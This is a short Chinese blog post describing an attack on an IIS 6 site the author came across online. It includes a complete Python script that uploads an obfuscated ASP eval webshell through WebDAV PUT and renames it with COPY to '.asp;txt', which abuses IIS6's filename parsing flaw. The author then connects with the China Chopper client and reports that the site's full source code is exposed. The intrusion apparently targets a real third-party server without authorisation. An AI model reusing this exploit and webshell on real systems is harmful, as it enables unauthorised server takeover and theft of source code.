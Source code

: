 ```yaml
---
title: Microsoft IIS WebDAV Write Access Code Execution
tags:
  - Web
categories:
  - 技术水文
copyright: true
abbrlink: 6b5b56c
date: 2019-04-04 15:37:36
---
```


![](https://ae01.alicdn.com/kf/HTB18xKiaCSD3KVjSZFKq6z10VXaO.jpg)
<!--more-->

某天，在网上逛了逛发现了个iis 6站，http所有方法都开了。古老的iis6，存在文件解析漏洞。So。。。。。

使用py脚本进行put一个shell的txt文件，然后copy成`.asp;txt`尾缀的新文件。

```python
import urllib2
def iisput():
	url="http://example.com/q.txt"
    # passwd:z
	data='<%Function MorfiCoder(Code)MorfiCoder=Replace(Replace(StrReverse(Code),"/*/",""""),"\*\",vbCrlf)End FunctionExecute MorfiCoder(")/*/z/*/(tseuqer lave")%>'
	req=urllib2.Request(url,data)
	req.get_method=lambda:'PUT'
	req=urllib2.urlopen(req)

def iiswrite():
	url="http://example.com/q.txt"
	req=urllib2.Request(url)
	req.get_method=lambda:'COPY'
	req.add_header('Destination', 'http://example.com/q.asp;txt')
	req=urllib2.urlopen(req)

if __name__ == '__main__':
	iisput()
	print "Txt file put successfully"
	iiswrite()
	print "Copy txt to asp successfully"
```

菜刀连接，整站源码直接暴露出来了。

![](https://ae01.alicdn.com/kf/HTB1Kp1jaBSD3KVjSZFq7634bpXay.png)

查看当前连接情况，发现已经沦落为跑马场了，所有没什么可玩的了。

![](https://ae01.alicdn.com/kf/HTB1Uo9paqWs3KVjSZFx761WUXXay.png)
